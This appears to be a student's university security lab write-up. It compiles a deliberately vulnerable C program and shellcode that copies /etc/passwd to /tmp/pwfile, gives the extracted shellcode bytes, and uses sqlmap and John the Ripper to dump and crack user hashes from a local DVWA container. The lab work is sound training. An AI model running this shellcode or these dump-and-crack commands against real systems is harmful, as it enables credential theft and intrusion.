 # Lab #1,22110058, Luong Minh Nhat, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Complie asm program and C program to execuatable

Complie asm program
``` 
    nasm -g -f elf shell.asm 
    ld -m elf_i386 -o shell shell.o
```

![](./imgs/task1_1.png)

Complie C program
``` 
    gcc -g vulnerable.c -o vulnerable.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
![](./imgs/task1_2.png)
## 2. Prepairing for attacking
Get shell code from complied asm program
```
    for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![](./imgs/task1_3.png) 

<br>

The value that we got
```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```
78 bytes long

Use gdb to find redundant_code function address:
``` 
    gdb vulnerable -q
    disas redundant_code
```
![](./imgs/task1_4.png)

## 3. Stack frame
stack frame for main fucntion <br>
![](./imgs/task1_5.png)
## 4. Attack

**Conclusion**: in main fucntion use unsafe function `strcpy`, that lead to attack buffer overflow for attacker inject code, to prevent it, we can use safe function like `strncpy`

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 


Set up
```
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Open your browser and navigate to http://localhost. You should see the DVWA login page.
![](./imgs/task2_1.png)

Login with the default credentials:

Username: admin
Password: password
![](./imgs/task2_2.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit" --dbs

```
![](./imgs/task2_3.png)
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
get tables
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --tables
```
![](./imgs/task2_4.png)
get users
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --dump

```
![](./imgs/task2_5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

```
